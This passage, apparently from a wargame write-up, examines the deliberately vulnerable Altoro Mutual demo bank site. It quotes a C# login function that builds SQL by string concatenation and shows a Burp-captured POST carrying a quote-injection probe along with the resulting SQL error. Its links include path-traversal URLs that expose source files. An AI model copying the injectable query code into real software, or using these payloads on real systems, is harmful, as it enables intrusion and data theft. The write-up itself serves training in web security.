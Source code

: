 *admin:admin* is a valid username/password combination.



### SQL injection using POST parameters

Now let's have a closer look at the source code... Let's analyze the *!ValidateUser*function:

~~~.dotnet
protected string ValidateUser(String uName, String pWord)
    {
      //Set default status to Success
      string status = "Success";
      OleDbConnection myConnection = new OleDbConnection();
      myConnection.ConnectionString = ConfigurationManager.ConnectionStrings["DBConnStr"].ConnectionString;
      myConnection.Open();
      string query2 = "SELECT * From users WHERE username = '" + uName + "'";
      string query1 = query2 + " AND password = '" + pWord + "'";
      if (ConfigurationManager.ConnectionStrings["DBConnStr"].ConnectionString.Contains("Microsoft.Jet.OLEDB.4.0"))
      {
          // Hack for MS Access which can not terminate a string
          query1 = Regex.Replace(query1, "--.*", "");
          query2 = Regex.Replace(query2, "--.*", "");
      }
      ....
~~~

As you can see the *uName* parameter doesn't get sanitized, so you can easily run some **SQL injection**. Let's try that out. Using [Burpsuite][7] we'll tamper data sent to the web server and analyze the responses.

Here's the request:

~~~.html
POST /bank/login.aspx HTTP/1.1
Host: demo.testfire.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:10.0.6) Gecko/20100101 Firefox/10.0.6
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-us,en;q=0.5
Accept-Encoding: gzip, deflate
Proxy-Connection: keep-alive
Referer: http://demo.testfire.net/bank/login.aspx
Cookie: ASP.NET_SessionId=2ks1fprgokgkd0jthbms3d25; amSessionId=62733112717
Content-Type: application/x-www-form-urlencoded
Content-Length: 39
uid=admin%27&passw=test&btnSubmit=Login
~~~
As a response you'll get:

~~~
An Error Has Occurred
Summary:
Syntax error (missing operator) in query expression 'username = 'admin'' AND password = 'test''.
Error Message:
~~~

 [3]: http://demo.testfire.net/default.aspx?content=../bank/login.aspx.cs%EF%BF%BD.txt
 [7]: http://www.portswigger.net/burp/
 [8]: http://dornea.nu/wargames/altoro-mutual?action=AttachFile&do=get&target=login_sql_injection.png "attachment:login_sql_injection.png"
 [9]: http://demo.testfire.net/default.aspx?content=../bank/main.aspx.cs%EF%BF%BD.txt